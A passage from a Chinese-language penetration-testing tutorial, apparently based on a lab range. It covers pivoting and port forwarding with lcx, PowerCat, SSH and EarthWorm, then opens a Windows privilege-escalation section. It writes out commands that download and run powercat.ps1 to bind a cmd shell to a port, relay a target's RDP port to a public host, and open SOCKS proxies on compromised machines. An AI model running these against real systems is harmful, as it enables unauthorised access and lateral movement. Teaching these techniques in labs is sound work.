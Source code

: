 ```java
＃将本机端口 111 的通信数据转发到本机端口 222
lcx.exe -listen 111 222
＃将目标机器端口3389的通信数据转发到公网机器端口4444
lcx.exe -slave {公网IP} 4444 127.0.0.1 3389
＃访问本地端口111即访问目标IP的3389端口
lcx.exe -tran 111 {目标IP} 3389
```

#### 3.PowerCat

PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：

```java
powershell "IEX (New-Object
System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat
-l -p 8000 -e cmd"
```

然后攻击者主动连接 8000 端口，即可获取 shell 权限。

#### 4.SSH

几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。

常用命令如下：

```java
＃通过跳板机访问目标IP
ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP}
＃访问攻击者IP的2121端口，即是访问目标IP
ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
```

#### 5.EarthWorm

[EarthWorm](https://github.com/idlefire/ew) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。

它的常用命令如下：

```java
# 在目标机器中开启SOCKS代理
ew -s ssocksd -l 888
# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上
ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
```

### 权限提升

有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。
> 补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。

#### 1.利用系统/软件漏洞提权

操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。
